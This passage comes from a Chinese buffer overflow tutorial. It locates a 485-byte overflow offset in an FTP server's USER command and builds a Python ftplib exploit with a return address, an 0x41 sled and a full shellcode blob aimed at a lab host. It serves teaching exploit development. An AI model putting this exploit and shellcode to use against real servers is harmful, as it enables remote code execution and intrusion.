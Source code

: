 这次是 46474849 到达返回点，截获的图如图 7－28。

![](img/Q 版缓冲区溢出教程 227043.jpg)

所以个位是 0x46－0x41＝5。400＋80＋5＝485！我们把 485 的地方改为 BBBB，其余全为 AAAA，检验一下。

```
from ftplib import FTP
ftp = FTP('192.168.3.151')
s = 'A'*485 +'BBBB'+'AAAA'
ftp.login( s,'ww') 
```

测试，果然是 42424242 报错！轻松搞定定位溢出点！

然后就考虑利用了，构造是： USER A*485 + RET + ShellCode

在 Python 中，直接加 ShellCode 就可以了，构造起来真爽！嗯？怎么有不能写的错误，如图 7－29。

![](img/Q 版缓冲区溢出教程 227333.jpg)

添几个 NOP 看看，改进构造为： USER A*485 + RET + 32 个 Nop ＋ ShellCode

程序如下：

```
from ftplib import FTP
ftp = FTP('192.168.3.151')
sc = 'A'*485 +'\x12\x45\xFA\x7F' + '\x41'*32
sc += "\xd9\xee\xd9\x74\x24\xf4\x5b\x31\xc9\xb1\x5e\x81\x73\x17\xe0\x66"
sc +="\x1c\xc2\x83\xeb\xfc\xe2\xf4\x1c\x8e\x4a\xc2\xe0\x66\x4f\x97\xb6"
sc +="\x31\x97\xae\xc4\x7e\x97\x87\xdc\xed\x48\xc7\x98\x67\xf6\x49\xaa"
sc +="\x7e\x97\x98\xc0\x67\xf7\x21\xd2\x2f\x97\xf6\x6b\x67\xf2\xf3\x1f"
sc +="\x9a\x2d\x02\x4c\x5e\xfc\xb6\xe7\xa7\xd3\xcf\xe1\xa1\xf7\x30\xdb"
sc +="\x1a\x38\xd6\x95\x87\x97\x98\xc4\x67\xf7\xa4\x6b\x6a\x57\x49\xba"
sc +="\x7a\x1d\x29\x6b\x62\x97\xc3\x08\x8d\x1e\xf3\x20\x39\x42\x9f\xbb"
sc +="\xa4\x14\xc2\xbe\x0c\x2c\x9b\x84\xed\x05\x49\xbb\x6a\x97\x99\xfc"
sc +="\xed\x07\x49\xbb\x6e\x4f\xaa\x6e\x28\x12\x2e\x1f\xb0\x95\x05\x61"
sc +="\x8a\x1c\xc3\xe0\x66\x4b\x94\xb3\xef\xf9\x2a\xc7\x66\x1c\xc2\x70"
sc +="\x67\x1c\xc2\x56\x7f\x04\x25\x44\x7f\x6c\x2b\x05\x2f\x9a\x8b\x44"
sc +="\x7c\x6c\x05\x44\xcb\x32\x2b\x39\x6f\xe9\x6f\x2b\x8b\xe0\xf9\xb7"
sc +="\x35\x2e\x9d\xd3\x54\x1c\x99\x6d\x2d\x3c\x93\x1f\xb1\x95\x1d\x69"
sc +="\xa5\x91\xb7\xf4\x0c\x1b\x9b\xb1\x35\xe3\xf6\x6f\x99\x49\xc6\xb9"
sc +="\xef\x18\x4c\x02\x94\x37\xe5\xb4\x99\x2b\x3d\xb5\x56\x2d\x02\xb0"
sc +="\x36\x4c\x92\xa0\x36\x5c\x92\x1f\x33\x30\x4b\x27\x57\xc7\x91\xb3"
sc +="\x0e\x1e\xc2\xf1\x3a\x95\x22\x8a\x76\x4c\x95\x1f\x33\x38\x91\xb7"
sc +="\x99\x49\xea\xb3\x32\x4b\x3d\xb5\x46\x95\x05\x88\x25\x51\x86\xe0"
sc +="\xef\xff\x45\x1a\x57\xdc\x4f\x9c\x42\xb0\xa8\xf5\x3f\xef\x69\x67"
sc +="\x9c\x9f\x2e\xb4\xa0\x58\xe6\xf0\x22\x7a\x05\xa4\x42\x20\xc3\xe1"
sc +="\xef\x60\xe6\xa8\xef\x60\xe6\xac\xef\x60\xe6\xb0\xeb\x58\xe6\xf0"
sc +="\x32\x4c\x93\xb1\x37\x5d\x93\xa9\x37\x4d\x91\xb1\x99\x69\xc2\x88"
sc +="\x14\xe2\x71\xf6\x99\x49\xc6\x1f\xb6\x95\x24\x1f\x13\x1c\xaa\x4d"
sc +="\xbf\x19\x0c\x1f\x33\x18\x4b\x23\x0c\xe3\x3d\xd6\x99\xcf\x3d\x95"
sc +="\x66\x74\x32\x6a\x62\x43\x3d\xb5\x62\x2d\x19\xb3\x99\xcc\xc2"
ftp.login( sc,'ww') 
```
